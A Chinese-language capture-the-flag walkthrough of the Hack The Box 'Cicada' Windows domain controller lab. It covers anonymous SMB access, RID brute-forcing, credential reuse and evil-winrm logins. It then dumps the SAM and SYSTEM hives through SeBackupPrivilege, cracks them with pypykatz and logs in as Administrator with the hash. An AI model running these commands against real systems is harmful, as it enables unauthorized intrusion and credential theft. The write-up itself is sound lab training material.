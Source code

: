 nmap
```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-02-15 17:50:40Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
64465/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: CICADA-DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-02-15T17:51:34
|_  start_date: N/A
|_clock-skew: 6h59m59s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 117.47 seconds

```

透過 smbmap 得知匿名訪問可以訪問 HR 跟 IPC＄（不知道為甚麼我的 smbmap 一定要用雙引號才能讓他執行）
```
![image](https://hackmd.io/_uploads/HkFrKZMqke.png)

```
![image](https://hackmd.io/_uploads/rJDyK-fc1g.png)

因為有發現他有開啟 445 先去列舉有沒有可以匿名訪問的檔案 `smbclient -L //10.10.11.35/ -N`
![image](https://hackmd.io/_uploads/By9flgG5ye.png)

在 HR 裡面找到一個 txt file 把他 download 下來（中間有空格的要用雙引號框起來）
```
smbclient //10.10.11.35/HR -N 

get "Notice from HR.txt"
```
![image](https://hackmd.io/_uploads/S1mmZef91x.png)

下載後去讀取文件可以在裡面發現有 password `Cicada$M6Corpb*@Lp#nZp!8`
![image](https://hackmd.io/_uploads/BJpvjlG9Je.png)

現在有了密碼但是沒有帳號 所以我們要去爆破 username 
這邊使用 nxc 來幫忙(crackmapexec, impacket-lookupsid 也可以辦到)
加上 `--rid-brute` 可以把所有的 SID 都列出來 這裡再搭配 grep 只列出 SidTypeUser 就好
```
username 可以隨便打 密碼記得留空

nxc smb 10.10.11.35 -u guest -p '' --rid-brute --continue-on-success | grep -i 'sidtypeuser' 
```
![image](https://hackmd.io/_uploads/r1We3gG9kx.png)

把列出的 username 存成 txt 去爆破密碼，可以發現密碼是對應到 michael.wrightson
![image](https://hackmd.io/_uploads/S12WVZG91x.png)

一樣用 smbmap 得知他還可以訪問 NETLOGON 跟 SYSVOL
![image](https://hackmd.io/_uploads/BysNKbG9kg.png)

但是沒有在裡頭發現有用的東西    

我們已經有一組身分了 那這次改用有身分的帳號去列舉 user 不像是剛剛是用匿名用戶列舉

第一種方法 ：

```
ncx smb 10.10.11.35 -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8' --users
```
從資訊中可以看到 david.orelious 有一組密碼為 aRt$Lp#7t*VQ!3
![image](https://hackmd.io/_uploads/B1OcnZGcJx.png)

---

第二種方法 ：
使用 enum4linux-ng 去列舉，這個會想辦法把所有找的到的資訊都抓出來
```
enum4linux-ng -A -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' 10.10.11.35 -t 10
```

![image](https://hackmd.io/_uploads/Sy_TZMGqkg.png)


從 smbmap 中可以看到他具有瀏覽 DEV 的權限
![image](https://hackmd.io/_uploads/BkPf6ZGqyl.png)

在裡頭找到一個 `Backup_script.ps1` 的文件
![image](https://hackmd.io/_uploads/HyL3RZG51e.png)

讀取後得到 emily.oscars 的 password `Q!3@Lp#M6b*7t*Vt` 並且看起來就很像可以透過 wimrm 去連線他
![image](https://hackmd.io/_uploads/HJfk1GG5ke.png)

使用 evil-winrm 連線後成功在桌面找到 flag `980d4671c8321a83557314106796f430`
```
evil-winrm -i 10.10.11.35 -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
```
![image](https://hackmd.io/_uploads/rJ0lZMf91e.png)

## 提權
成功連線後先看具有哪些權限 可以使用 `whoami /priv` 或是 `whoami /all`
![image](https://hackmd.io/_uploads/ryuD5aG5yl.png)

可以看到我們在 backup 的 group 裡以及 具有 SeBackupPrivilege 和 SeRestorePrivilege 的權限
具有 SeBackupPrivilege 代表有讀設定檔的權限，而 SeRestorePrivilege 則是具有寫的權限

那這時候我們就可以去讀取 SAM（Security Accounts Manager）文件，裡頭會有 admin 的 hash 可以拿來利用
可以參考以下兩篇關於 SeBackupPrivilege 提權的文章 [1](https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/) [2](https://github.com/nickvourd/Windows-Local-Privilege-Escalation-Cookbook/blob/master/Notes/SeBackupPrivilege.md)

第一步在 `C:/` 中創立 temp 資料夾把 hklm 中的 sam 以及 system 資料導出到 temp 資料夾中
```
reg save hklm\sam c:\Temp\sam
reg save hklm\system c:\Temp\system
```

再把他們都下載下來 system 檔案比較大 會跑比較久
```
download sam
download system
```

使用 pypykatz 成功爆破出 admin 的 hash `2b87e7c93a3e8a0ea4a581937016f341`
```
pypykatz registry --sam sam system
```

![image](https://hackmd.io/_uploads/Bkaadzm5kg.png)


使用 evil-winrm 去登入 記得參數要用 -H 因為是帶入他的 hash
```
evil-winrm -i 10.10.11.35 -u 'Administrator' -H '2b87e7c93a3e8a0ea4a581937016f341'
```

成功登入並在 Desktop 找到 root flag 
![image](https://hackmd.io/_uploads/HkrqtGmckx.png)

結束～
![image](https://hackmd.io/_uploads/SJ3PYfm51g.png)
